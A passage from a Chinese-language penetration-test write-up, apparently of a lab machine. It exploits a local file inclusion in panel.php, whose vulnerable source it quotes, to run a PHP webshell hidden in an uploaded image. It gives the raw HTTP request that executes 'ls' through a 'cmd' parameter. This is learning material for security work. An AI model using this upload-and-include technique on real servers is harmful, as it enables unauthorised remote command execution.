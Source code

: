 我们修改 `load=show` 为 `load=uploaded_images/shell.png`，然后经典的 `?cmd=ls` 试一试

> 在这一步卡了一个多小时，主要是理解 load 参数的使用（利用之前的远程文件读取翻 panel.php 才能理解这个参数），以及尝试直接在 panel.php 携带参数。另外一开始我一直尝试上传 .php 后缀的文件发现查的很严（白名单限制），在上传 .png 文件的时候也不确定可以执行 php 部分
>
> ```php
> if(isset($_POST['continue']))
> {
> 	$dir=getcwd();
> 	$choice=str_replace('./','',$_POST['load']);
> 	
> 	if($choice==='add')
> 	{
>    			include($dir.'/'.$choice.'.php');
> 			die();
> 	}
> 	
>         if($choice==='show')
> 	{
>         
> 		include($dir.'/'.$choice.'.php');
> 		die();
> 	}
> 	else
> 	{
> 		include($dir.'/'.$_POST['load']);	// 这里有执行一句话木马的条件
> 	}
> 	
> }
> ```

```
POST /panel.php?cmd=ls HTTP/1.1
Host: 10.0.2.5
Content-Length: 49
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.2.5
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.0.2.5/panel.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=hjsm15j6iifqf6i150hp28nim6
Connection: keep-alive

// 这里是我换了个图片马，所以名字不一样
load=uploaded_images/shell2.jpg&continue=continue
```
